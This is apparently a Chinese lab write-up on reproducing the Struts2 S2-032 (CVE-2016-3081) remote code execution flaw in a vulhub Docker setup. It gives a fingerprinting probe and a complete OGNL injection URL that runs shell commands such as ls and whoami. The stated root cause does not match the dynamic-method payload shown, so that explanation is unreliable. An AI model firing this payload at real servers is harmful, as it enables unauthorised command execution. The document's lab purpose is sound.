




2024 // 08 / 07
vulhub靶机struts2环境下的s2-032（CVE-2016-3081）（远程命令执行漏洞）
漏洞详情
Apache Struts 2 是美国阿帕奇（Apache）软件基金会负责维护的一个基于 MVC 设计模式的 Web 应用框架，是目前全球最流行的 Java Web 框架之一。
CVE-2016-3081（S2-032）影响 Struts 2.3.19 至 2.3.20.2、2.3.21 至 2.3.24.1 和 2.3.25 至 2.3.28 版本。当用户提交表单数据并验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中，从而造成远程代码执行。
漏洞搭建
使用 vulhub 搭建漏洞环境，进入 struts2/s2-032 目录启动 docker：
docker-compose up -d启动后访问 http://your-ip:8080：

vulhub 搭建方法参考：Vulhub 搭建方法。
判断方式
检测根目录参数 ?actionErrors=1111，如果返回的页面出现异常，则可以认定为目标是基于 Struts2 构建的。异常包括但不限于以下几种现象：
- 页面直接出现 404 或者 500 等错误
- 页面上输出了与业务有关错误消息，或者 1111 被回显到了页面上
- 页面的内容结构发生了明显的改变
- 页面发生了重定向
漏洞利用

EXP：
http://192.168.21.182:8080/memoindex.action?
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=ls执行 ls 命令：

执行 whoami 发现是 root 用户：
